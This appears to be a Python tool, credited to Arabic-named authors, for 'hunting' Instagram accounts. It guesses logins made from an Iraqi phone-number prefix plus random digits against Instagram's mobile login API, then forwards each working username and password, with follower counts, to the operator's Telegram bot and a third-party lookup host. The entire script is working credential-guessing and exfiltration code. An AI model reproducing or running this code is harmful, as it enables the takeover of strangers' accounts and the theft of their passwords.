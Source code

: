 import os
os.system('clear')
try:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
    E = '\x1b[1;31m'
    G = '\x1b[1;32m'
    S = '\x1b[1;33m'
    Z = '\x1b[1;31m'
    X = '\x1b[1;33m'
    Z1 = '\x1b[2;31m'
    F = '\x1b[2;32m'
    A = '\x1b[2;39m'
    C = '\x1b[2;35m'
    B = '\x1b[2;36m'
    Y = '\x1b[1;34m'
    import time
    timee = time.asctime()
    t = time.localtime()
    current_time = time.strftime('%H:%M:%S', t)

    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0.026)


    a(f"                      {Y}***مطور الاداة قيس التكريتي******* ******بسم الله الرحمن الرحيم ******** ")





    a(f"         {Y}------صيد حسابات انستقرام مقدمه من اخوكم طارق الدليمي---------"  )
    sleep(1)
    print('\n\n')
    a(G + ' \n\nالتوكن ')
    print('\n')
    tok = input(S + '     >> ' + C)
    sleep(2)
    os.system('clear')
    a(A + ' الآيدي ')
    print('\n')
    ID = input(A + '     >> ' + C)
    sleep(0.1)
    os.system('clear')
    start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=LODING..... ⏸️").json()
    id_msg = start_msg['result']['message_id']

    def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']
        t = time.localtime()
        current_time = time.strftime('%H:%M:%S', t)
        joo3 = f"\n⭐✅تعال حبيصي جبتلك حساب  ✅⭐\n\n✔️⭐   ⭐✔️\n ︎.<•>︎ ––––––––––––––––︎ <•>. \n .♻. Name ➡  : {name}\n .🔱. Use®Name☣ : {userQ}\n .🔆. BaSsWord↪  : {password}\n .♾. 𝕱ollowes✴ : {followes}\n .💠. 𝕱𝖔𝖑𝖑𝖔𝖜𝖎𝖓𝖌 : {following}\n .➡. 𝕮𝖗𝖊𝖆𝖙𝖊𝖉 𝕺𝖆𝖙𝖊 : {dat}\n .⚠. TIⓂE : {current_time}\n .⛔. 𝙩𝙝𝙞𝙨 𝙄𝙨 𝙏𝙝𝙚 𝙃𝙪𝙣𝙩 𝙉𝙪𝙢𝙗𝙚𝙧 [{zz}] ✅🤤\n ︎.<•>︎ ––––––––––––––––︎ <•>.\n.🔰. 𝐂𝐡 :@Tariq_black ♦\n"
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {joo3} \n"
        i = requests.post(tlg)
        print(G + joo3)


    url = 'https://b.i.instagram.com/api/v1/accounts/login/'
    headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)'}
    
    
    a(F + 'iraq : 0770 or 0771 or 0772 or 0780 or 0781 or 0782 or 0783 or 0750 or 0751 or 0752                                                     ')
  
    phonenumber = input(X +
    
                                                                                                                  ' قم بادخال الرقم الذي تريد الصيد عليه :  >> ' + C)
    print(G + 'The Tool Has Been Started Successfully ✔️ ')
    sleep(0.1)
    user = '1234567890'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = phonenumber + us
        password = phonenumber + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            print(S + 'username S ==> : ' + username + ': password ==> : ' + password)
        else:
            requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&message_id={id_msg}&text= T.A.R.K IS ALDYLIMY \n\nTh THIS TOOL BY T.A.R.K ⭐\n->•My Channel 👇✔️\n√| @Tariq_black |√\n->• My Id 👇✔️\n√|M.S.A|√\n\n->• Hunted✔️ [{zz}]\n->•🇳\u200aNot hunted❌ [{aa}]")
            print(E + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
